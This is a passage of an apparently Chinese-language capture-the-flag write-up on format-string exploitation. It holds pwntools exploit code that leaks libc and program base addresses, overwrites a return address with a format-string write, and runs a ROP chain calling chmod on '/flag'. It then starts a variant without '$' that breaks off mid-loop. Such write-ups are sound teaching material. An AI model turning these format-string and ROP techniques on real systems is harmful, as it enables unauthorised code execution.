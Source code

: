 ```python
log.success(f"program_addr: {hex(program_addr)}")

libc_base = libc_addr - 0x10e297
libc.address = libc_base
program_base = program_addr - 0x183f
log.success(f"libc_base: {hex(libc_base)}")
log.success(f"program_base: {hex(program_base)}")

rop_start_addr = stack_addr - 0x206  # return of printf: because the func ends with exit(),so use printf's stack_frame to rop
log.success(f"rop_start_addr: {hex(rop_start_addr)}")
rbp_addr = stack_addr + 0x402
log.success(f"rbp_addr: {hex(rbp_addr)}")

# 在程序调用printf打印字符串时，将其返回地址修改为leave ret的地址
# 将rbp存储的地址中的值，改为rop的地址
# step 2: fmt to rop
pop_rdi_ret = (0x00000000000018c3 + program_base)
pop_rsi_r15_ret = (0x00000000000018c1 + program_base)
add_rsp_8_ret = (0x0000000000001016 + program_base)
pop_rsp_r13_rbp_ret = (0x0000000000001487 + program_base)
leave_ret = (0x0000000000001850 + program_base)
payload = b"%*74$c%75$hn"
payload += b"%*76$c%77$hn"
payload = payload.ljust(0x20+2,b"a")
payload += p64((leave_ret-0x1e)&0xffff)+p64(rop_start_addr)
payload += p64((stack_addr+0x22+0x10+0x10-(leave_ret&0xffff))&0xffff) + p64(rbp_addr)
payload += p64(0)+p64(pop_rdi_ret)+p64(stack_addr+0x22+0x10+0x10+0x38)+ p64(pop_rsi_r15_ret)+p64(511)+p64(0)+p64(libc.symbols["chmod"])
payload += b"/flag\x00\x00\x00" 
p.send(payload)

p.interactive()
```

### 3.4.2 fmt+rop+PIE:但是不能输入$符号<br>
这对于fmt的利用来说可以说是晴天霹雳了，在不输入`$`符号的情况下，如何利用fmt完成rop的执行呢？<br>
这就不得不提到`pwntools`里的强强工具`fmtstr_payload`了<br>
```python

from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
context.terminal=['tmux','splitw','-h']

libc_path = "./libc-2.31.so"
binary_path = './babyfmt_level12.1'
#libc_path = "/lib/x86_64-linux-gnu/libc.so.6"
#binary_path = "/challenge/babyfmt_level12.1"
p = process(binary_path)
binary = p.elf
libc = ELF(libc_path)

gdb.attach(p,"b *$rebase(0x1481)\n b *$rebase(0x14EC)")
pause()
payload = b""
for i in range(157):
    payload += b"%p".ljust(5,b"a")
p.send(payload)

# step 1: leak addr
for i in range(145):
```